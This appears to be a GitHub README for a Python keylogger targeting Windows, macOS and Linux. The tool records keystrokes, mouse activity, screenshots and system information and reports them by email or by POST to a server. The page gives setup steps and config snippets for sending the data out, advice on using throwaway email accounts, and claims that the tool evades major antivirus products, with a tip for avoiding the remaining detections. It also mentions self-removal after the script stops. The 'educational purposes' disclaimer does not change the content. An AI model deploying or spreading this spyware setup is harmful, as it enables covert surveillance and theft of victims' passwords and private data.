 # Keylogger with Email and Server Reporting for windows, macOS and Linux

**⚠️ DISCLAIMER: This tool is for educational purposes only. Using this software without explicit permission from the target system's owner is illegal.**

## Features

- Keyboard and mouse activity logging
- Screenshot capture
- System information collection
- Two reporting methods:
  - Email reporting (`email.py`)
  - Server reporting (`server.py`)

## Antivirus Detection result 

Only 2 antivirus providers detected this script (Google and Sophos) due to system information collection feature of the script. The script is undetected by Kaspersky,McAfee and Windows Defender. To avoid detection by google and sophos, do not use the system information collection feature.
-EMAIL.py
![Email Test Results](email_test1.png)
-SERVER.py
![Server Test Results](server_test1.png)

## Prerequisites

- Python 3.7 or higher
- Internet connection
- For email version: SMTP server credentials (e.g., Mailtrap.io account) created using [temp-mail.org](https://temp-mail.org/)
- For server version: Access to a web server you have hosted or rented that can receive POST requests

## Installation for Windows , macOS and Linux

### Windows

1. Install Python from [python.org](https://python.org)
2. Open Command Prompt as administrator and run:
```bash
pip install pynput pyscreenshot pillow requests
```

### macOS

1. Install Python (if not already installed):
   ```bash
   # Using Homebrew
   brew install python3
   
   # Or download from python.org
   ```

2. Install required packages:
   ```bash
   pip3 install pynput pyscreenshot pillow requests
   ```

3. Grant Accessibility permissions:
   - Go to System Preferences > Security & Privacy > Privacy > Accessibility
   - Add Terminal (or your IDE) to the list of allowed apps
   - This is required for keyboard monitoring

### Linux

1. Install Python and required system dependencies:
```bash
sudo apt-get update
sudo apt-get install python3 python3-pip python3-tk python3-dev scrot
```

2. Install Python packages:
```bash
pip3 install pynput pyscreenshot pillow requests
```

## Setup Instructions

### Creating TEMPERORARY Email and mailtrap.io account 

![Email Setup](images/email.png)

1. Visit mailtrap.io and click "Sign Up"
2. Choose "Sign up with email" ,you can use temperary email from [temp-mail.org](https://temp-mail.org/)
3. Once logged in, go to "Email Testing" → "Inboxes"
4. In your inbox, find the SMTP credentials:
   -Click on "Show Credentials"
   -Use the provided username and password in your configuration
   -Use the SMTP server settings provided

### Email Version (email.py)

1. Open `email.py` in a text editor

2. Configure the email settings:
   ```python
   EMAIL_ADDRESS = "YOUR_USERNAME"    # Your SMTP username
   EMAIL_PASSWORD = "YOUR_PASSWORD"   # Your SMTP password
   SEND_REPORT_EVERY = 60            # Report interval in seconds
   ```

3. if you face issues running the default then 
   Update SMTP server settings in the `send_email()` method:
   ```python
   server = smtplib.SMTP("smtp.mailtrap.io", 2525)  # Change to your SMTP server and port
   ```

### Server Version (server.py)

1. Open `server.py` in a text editor
   
2. Configure the server settings:
   ```python
   ip_address = "YOUR_SERVER_IP"      # Your server IP address
   port_number = "YOUR_SERVER_PORT"   # Your server port
   SERVER_URL = f"http://{ip_address}:{port_number}"
   ```

3. The server should be configured to accept POST requests with JSON data containing:
   - timestamp
   - system_info
   - logs
   - screenshot (base64 encoded)

## Running the Script

### Email Version
```bash
# Windows
python email.py

# Linux
python3 email.py

# macOS
python3 email.py
```

### Server Version
```bash
# Windows
python server.py

# Linux
python3 server.py

# macOS
python3 server.py
```

## Stopping the Script

Press `Ctrl+C` to stop the script. The script will automatically remove itself after termination.
open it after running and it will terminate itself.

## Dependencies

- pynput: For keyboard and mouse monitoring
- pyscreenshot: For taking screenshots
- pillow: Image processing
- requests (server version only): For HTTP requests

## Security Notice

- Always use strong, unique passwords for email accounts and server authentication
- Use test/dummy accounts and servers for testing
- Never use this tool on systems without explicit permission
- Keep the script and logs secure to prevent unauthorized access
- For server version, use HTTPS for secure data transmission

## License

Find the license [LICENSE](LICENSE.md)